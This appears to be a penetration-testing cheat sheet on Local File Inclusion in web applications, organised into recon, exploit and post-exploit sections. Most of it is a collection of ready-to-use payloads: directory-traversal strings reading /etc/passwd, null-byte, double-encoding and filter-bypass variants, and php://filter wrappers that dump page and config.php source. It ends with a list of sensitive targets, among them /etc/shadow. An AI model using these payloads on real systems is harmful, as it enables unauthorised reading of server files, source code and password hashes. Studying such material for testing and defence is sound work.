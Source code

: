 # X - Local File Inclusion

The File Inclusion vulnerability allows for the include of a file locally
present on the server, usually exploiting a "dynamic file inclusion" mechanisms
implemented in the target application.  

The vulnerability occurs due to the use of user-supplied input without proper
validation.

### RECON

Look for scripts which take filenames as parameters, such as the following
examples:

```
http://vulnerable_host/preview.php?file=example.html
http://vulnerable_host/?op=home
```

Try to access common files, such as:

```
# Linux

# Windows
WINDOWS\System32\drivers\etc\hosts
```

<br />
### EXPLOIT

###### Basic

Typical proof-of-concept for basic LFI would be:

```
# Linux
?file=../../../../../../../../../../etc/passwd

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts
```

###### Null Byte
In some cases, the server will will include ".php” at the end of the requested
file.
Such mechanisms can be bypassed using the line terminator char *null byte*:

```
# Linux
?file=../../../../../../../../../../etc/passwd%00

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts%00
```

###### Double encoding
Encoding parameters twice in hexadecimal format can be leveraged to bypass
security controls such as blacklist filters.  
For example, the '.' (*dot*) character represent %2E in hexadecimal
representation. When the % symbol is encoded again, its representation in
hexadecimal code is %25. The result from the double encoding process is %252E.

```
# Linux
?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Windows
?file=%252e%252e%255c%252e%252e%255c%252e%252e%255cWINDOWS%255cSystem32%255cdrivers%255cetc%255chosts
```

###### Filter bypass
Some blacklist filter may be implemented and restrict the usage of "../".  
Those kind of filter may be passed using the following payloads:

```
# Linux
?file=....//....//etc/passwd
?file=..///////..////..//////etc/passwd

# Windows
?file=....\\....\\....\\....\\....\\....\\WINDOWS\System32\drivers\etc\hosts%00
?file=..\\\\\\..\\\\\\..\\\\\\..\\\\\\..\\\\\\WINDOWS\System32\drivers\etc\hosts%00
```

###### PHP wrappers

**php://filter**
This PHP wrappers can be used to access the source code of the page:

```
# Base64 encoding
?page=php://filter/convert.base64-encode/resource=index
?page=php://filter/convert.base64-encode/resource=config.php

# rot13 encoding
?page=php://filter/read=string.rot13/resource=index
?page=php://filter/read=string.rot13/resource=config.php
```

<br />
### POST-EXPLOIT

###### Linux files

the following Linux files can be of interest:
```
# System information
/etc/issue

# System users account information
/etc/passwd

# System users account hashed password
/etc/shadow

# System grouops information
/etc/group


/etc/hosts
```
